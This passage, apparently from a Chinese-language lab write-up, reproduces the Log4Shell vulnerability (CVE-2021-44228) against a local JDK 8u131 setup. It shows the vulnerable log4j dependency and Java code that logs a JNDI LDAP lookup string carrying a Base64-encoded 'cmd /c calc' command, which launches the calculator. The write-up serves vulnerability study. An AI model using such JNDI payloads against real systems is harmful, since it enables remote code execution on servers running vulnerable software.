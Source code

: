 点击运行之后先放到一边，然后我们准备log4j的漏洞触发

这里不考虑绕过，只分析漏洞本身，所以我们只需要挑一个未修复的JDK版本即可，我这里随便找了一个本地的JDK 8u131，然后加入以下log4j依赖

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

然后写入以下代码：

```java
package log4j2_labs;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class CVE_2021_44228 {
    private static final Logger logger = LogManager.getLogger(CVE_2021_44228.class);
    public static void main(String[] args) {
        // Y21kIC9jIGNhbGM= 这里是cmd /c calc这个命令的Base64编码之后的写法，也就是漏洞触发之后要执行的命令
        logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}");
    }
}
```

然后运行这份代码，看一下结果，计算器被成功弹出，代码执行成功。

![image-20241202230039184](./main.assets/log4j2-2.png)
